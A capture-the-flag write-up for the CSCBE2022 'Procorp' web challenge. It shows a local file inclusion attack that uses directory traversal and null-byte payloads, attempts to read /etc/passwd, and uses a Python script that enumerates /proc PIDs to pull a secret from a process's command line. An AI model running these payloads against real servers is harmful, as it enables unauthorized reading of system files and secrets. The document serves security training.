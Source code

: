# CSCBE2022 - Procorp

## Web - Medium

In this challenge we were given a website talking about Procorp, a process manager. 
![](https://i.imgur.com/ySP8Itm.png)

We can't find anything really interesting on the website, except for a Guide page that talks about a simple way to use this process manager.

![](https://i.imgur.com/JzOBzSH.png)

Looking at the pastebin URL, we obviously find a fake flag. From here we can see that the flag is set by passing it as an argument to the process manager with the f option.

We can also see that the URL of this Guide webpage is included as follows.
`52.50.60.154/index.php?p=guide`

From this point on, we can think of a classic LFI attack.

As the main file for the website is `index.php`, it appears that `.php` is added to the file name passed to the `?p` parameter. To get around this, we need to add a null byte (`%00`) to the file we are trying to include.

So let's start by trying to include the other files that already exist.

`http://52.50.60.154/index.php?p=../html/pricing` (.php is appended to pricing to include pricing.php)

![](https://i.imgur.com/E03Dggl.png)
Here we can see two things:

- We are probably in the /var/www/html directory
- The LFI works

Let's continue by trying to include classic files such as /etc/passwd

`http://52.50.60.154/index.php?p=../../../../../../../../../../../etc/passwd%00` (remember about the null byte so that the .php extension is not added)

![](https://i.imgur.com/2cKwXpI.png)

We are not allowed to include files from the /etc directory.
So we kept trying to include different files from various directories but we weren't allowed to so. Except for a directory, /proc.
This special directory holds all the details about your Linux system, including its kernel, processes, and configuration parameters.

By reading documentation on proc files, we can see that some might be interesting to include.
https://tldp.org/LDP/Linux-Filesystem-Hierarchy/html/proc.html

/proc/PID/stat

> Process status.
> /proc/PID/stat files also displays the name of the process

/proc/PID/cmdline

> Command line arguments.
> This seems interesting considering that procorp is supposed to be run with the flag as a command line argument 


Let's try it.

`http://52.50.60.154/index.php?p=../../../../../../../../../../../proc/1/status%00`

![](https://i.imgur.com/Oy2ZvNW.png)

From here we can see that the name of the first process is `entrypoint.sh`. But let's see if we can find a more interesting process. To do this, we'll create a quick and dirty script that looks at the status of all the pids.


```python
import requests
url = "http://52.50.60.154/index.php?p=../../../../../../../../../../../proc/"

for i in range(1000):
	a = requests.get(url+str(i)+"/status%00")
	print("testing : ", i)
	
	if "Quickly manage your processes!" not in a.text: #dirty check to see if the file gets included
		a = str(a.content)
		a = a.split("Name:")
		a = a[1]
		a = a.split("Umask")
		print(a[0])
```

We run it and we can see that procorp is running under different pids. 

![](https://i.imgur.com/g1VV0KZ.png)

Let's choose one and include its command line arguments.
`http://52.50.60.154/index.php?p=../../../../../../../../../../../proc/7/cmdline%00`

And the flag is there :)

![](https://i.imgur.com/hLThpz2.png)


That's just how we first blooded this interesting and fun challenge.

